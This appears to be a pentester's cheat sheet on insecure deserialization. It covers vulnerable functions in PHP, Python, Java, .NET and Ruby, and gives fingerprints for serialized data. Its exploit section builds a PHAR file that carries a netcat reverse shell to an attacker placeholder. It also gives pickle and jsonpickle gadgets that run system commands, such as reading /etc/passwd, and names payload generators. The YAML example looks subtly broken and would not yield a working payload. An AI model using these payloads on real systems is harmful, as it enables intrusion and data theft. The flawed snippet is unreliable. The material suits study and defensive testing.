 # Deserialization
## WB functions
- `unserialize()` - PHP
- `pickle.loads()` - Python Pickle
- `jsonpickle.decode()` - Python JSONPickle
- `yaml.load()` - Python PyYAML / ruamel.yaml
- `readObject()` - Java
- `Deserialize()` - C# / .NET
- `Marshal.load()` - Ruby

## BB serialized values
- If it looks like: `a:4:{i:0;s:4:"Test";i:1;s:4:"Data";i:2;a:1:{i:0;i:4;}i:3;s:7:"ACADEMY";}` - **PHP**
- If it looks like: `(lp0\nS'Test'\np1\naS'Data'\np2\na(lp3\nI4\naaS'ACADEMY'\np4\na.` - **Pickle Protocol 0**, default for Python 2.x
- Bytes starting with `80 01` (Hex) and ending with `.` - **Pickle Protocol 1, Python 2.x**
- Bytes starting with `80 02` (Hex) and ending with `.` - **Pickle Protocol 2, Python 2.3+**
- Bytes starting with `80 03` (Hex) and ending with `.` - **Pickle Protocol 3, default for Python 3.0-3.7**
- Bytes starting with `80 04 95` (Hex) and ending with `.` - **Pickle Protocol 4, default for Python 3.8+**
- Bytes starting with `80 05 95` (Hex) and ending with `.` - **Pickle Protocol 5, Python 3.x**
- `["Test", "Data", [4], "ACADEMY"]` - **JSONPickle, Python 2.7 / 3.6+**
- `- Test\n- Data\n- - 4\n- ACADEMY\n` - **PyYAML / ruamel.yaml, Python 3.6+**
- Bytes starting with `AC ED 00 05 73 72` (Hex) or `rO0ABXNy` (Base64) - **Java**
- Bytes starting with `00 01 00 00 00 ff ff ff ff` (Hex) or `AAEAAAD/////` (Base64) - **C# / .NET**
- Bytes starting with `04 08` (Hex) - **Ruby**

## PHAR Deserialization
> According to the [PHP documentation](https://www.php.net/manual/en/intro.phar.php), metadata can be any PHP variable that can be serialized. In PHP versions until **8.0**, PHP will automatically deserialize metadata when parsing a PHAR file. Parsing a PHAR file means any time a file operation is called in PHP with the `phar://` wrapper. So even calls to functions like `file_exists` and `file_get_contents` will result in PHP deserializing PHAR metadata.

### Exploit example
```php
<?php
include('UserSettings.php');

$phar = new Phar("exploit.phar");

$phar->startBuffering();

$phar->addFromString('0', '');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', 'attacker@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));

$phar->stopBuffering();
```

## Tools
- [PHPGCC](https://github.com/ambionics/phpggc) (**PHP**)
- [PEAS](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) (**Python**)

## Python Deserialization
Reading about `object.__reduce__()`, we see that it returns a tuple that contains:

- A callable object that will be called to create the initial version of the object.
- A tuple of arguments for the callable object.

> What this means exactly is that when a pickled object is unpickled, if the pickled object contains a definition for `__reduce__`, it will be used to restore the original object. We can abuse this by returning a callable object with parameters that result in command execution.

In this case, we want to execute `os.system("ping -c 5 <ATTACKER_IP>")`, just to check if the command execution works. This means we will need to define `__reduce__` so it returns `os.system` as the callable object and `"ping -c 5 <ATTACKER_IP>"` as the argument. Since `__reduce__` requires a tuple of arguments we will use `("ping -c 5 <ATTACKER_IP>",)`. We create a new file named exploit-rce.py with the following contents:
```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return os.system, ("ping -c 5 <ATTACKER_IP>",)

r = RCE()
p = pickle.dumps(r)
b = base64.b64encode(p)
print(b.decode())
```

### JSONPickle deserialize
```python
import jsonpickle
import os

class RCE():
  def __reduce__(self):
    return os.system, ("head /etc/passwd",)

# Serialize (generate payload)
exploit = jsonpickle.encode(RCE())
print(exploit)

# Deserialize (vulnerable code)
jsonpickle.decode(exploit)
```

### YAML (PyYAML, ruamel.yaml)
```python
import yaml
import subprocess

class RCE():
  def __reduce__(self):
    return subprocess.Popen(["head", "/etc/passwd"])

# Serialize (Create the payload)
exploit = yaml.dump(RCE())
print(exploit)

# Deserialize (vulnerable code)
yaml.load(exploit)
```

## .NET
### (Potentially) Vulnerable Functions
|Serializer|Example|Reference|
|--|--|--|
|BinaryFormatter|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=net-7.0)|
|fastJSON|`JSON.ToObject(...)`|[Github](https://github.com/mgholam/fastJSON)|
|JavaScriptSerializer|`.Deserialize(...)`|[Micosoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.script.serialization.javascriptserializer?view=netframework-4.8.1)|
|Json.NET|`JsonConvert.DeserializeObject(...)`|[Newtonsoft](https://www.newtonsoft.com/json)|
|LosFormatter|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.ui.losformatter?view=netframework-4.8.1)|
|NetDataContractSerializer|`.ReadObject(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.netdatacontractserializer?view=netframework-4.8.1)|
|ObjectStateFormatter|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.web.ui.objectstateformatter?view=netframework-4.8.1)|
|SoapFormatter|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.soap.soapformatter?view=netframework-4.8.1)|
|XmlSerializer|`.Deserialize(...)`|[Microsoft](https://learn.microsoft.com/en-us/dotnet/api/system.xml.serialization.xmlserializer?view=net-7.0)|
|YamlDotNet|`.Deserialize<...>(...)`|[Github](https://github.com/aaubry/YamlDotNet)|

### BB patterns
- Base64-encoded strings beginning with `AAEAAAD/////`
- Strings containing `$type`
- Strings containing `__type`
- Strings containing `TypeObject`